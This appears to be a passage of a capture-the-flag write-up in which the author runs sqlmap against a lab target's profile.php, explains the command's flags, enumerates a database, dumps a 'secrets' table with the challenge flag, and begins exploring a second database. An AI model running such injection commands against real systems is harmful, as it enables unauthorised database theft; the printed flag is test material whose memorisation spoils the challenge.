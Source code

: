 [sqlmap cheatsheet](https://www.comparitech.com/net-admin/sqlmap-cheat-sheet/)
```bash
┌──(legagog㉿kali)-[~]
└─$ sqlmap -u http://45.84.138.178/cld-mgmt/profile.php --batch -D hawkeye --tables --forms --crawl=2 --threads=5 --technique B
-u # target URL
-r #can be used for request file
--batch # Never ask for user input; use default behavior
--tables # retrieve tables
--forms # parse and test forms on the target url
--crawl # crawl website starting from target url
--threads # concurrent HTTP(s) requests default is 1
```

![](https://i.imgur.com/svTFmrN.png)

```
Database: hawkeye
[1 table]
+---------+
| secrets |
+---------+
```


![](https://i.imgur.com/4xlNVVJ.png)

after retrieving the table which is secrets, i decided to dump it 

![](https://i.imgur.com/Sg7uQ31.png)

and here we got the flag :)

![](https://i.imgur.com/81ORLUQ.png)

```
Database: hawkeye
Table: secrets
[1 entry]
+-----------------------------------------------+
| flag                                          |
+-----------------------------------------------+
| L@sTw@shinetocapture-5Machines-9Vulnerability |
+-----------------------------------------------+
```

I think this gives a clue maybe? 
`LastWashinetocapture-5Machines-9Vulnerability`

now we can explore the other db which is robin


![](https://i.imgur.com/giorvE1.png)

turns out i found that there are 2 tables service and users. 
